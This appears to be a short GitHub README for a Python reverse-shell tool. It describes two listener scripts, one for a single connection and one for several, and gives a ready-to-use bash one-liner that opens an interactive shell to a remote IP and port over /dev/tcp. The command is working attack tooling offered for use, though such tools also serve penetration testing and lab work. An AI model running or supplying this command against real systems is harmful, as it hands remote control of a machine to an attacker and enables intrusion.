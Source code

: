 # Reverse_shell

Reverse shell with python

- **reverse_server.py** For a single shell bounce
- **reverse_servers.py** Support multiple shell bounce

# Client command

	bash -c "bash -i &>/dev/tcp/<IP>/<Port> 0>&1"

# Screenshot

![Reverse_shell.gif](http://wx2.sinaimg.cn/large/740ef8cfgy1fff4vlsgv0g20ku0c2e81.gif)

